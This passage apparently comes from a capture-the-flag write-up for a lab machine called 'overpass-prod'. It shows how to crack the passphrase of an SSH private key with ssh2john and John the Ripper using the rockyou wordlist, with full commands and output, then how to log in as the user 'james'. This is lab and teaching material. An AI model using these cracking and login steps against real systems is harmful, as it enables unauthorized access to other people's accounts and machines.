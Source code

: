 #### Crack the Private Key

I am using `John The Ripper` to crack this password

```bash
locate ssh2john

/usr/share/john/ssh2john.py
```
```bash
python /usr/share/john/ssh2john.py key > key.hash

john --wordlist=/usr/share/wordlists/rockyou.txt key.hash

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxx          (key)
Warning: Only 3 candidates left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2020-12-26 14:47) 0.1757g/s 2520Kp/s 2520Kc/s 2520KC/sabygurl69..*7¡Vamos!
Session completed
```

We have the password ! 

```bash
john --show key.hash 
key:xxxx

1 password hash cracked, 0 left
```

#### SSH into the target

```bash
chmod 400 key

ssh -i key james@10.10.10.26

Enter passphrase for key 'key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 26 14:57:21 UTC 2020

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: 10.10.10.26
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ id
uid=1001(james) gid=1001(james) groups=1001(james)
james@overpass-prod:~$ 
```
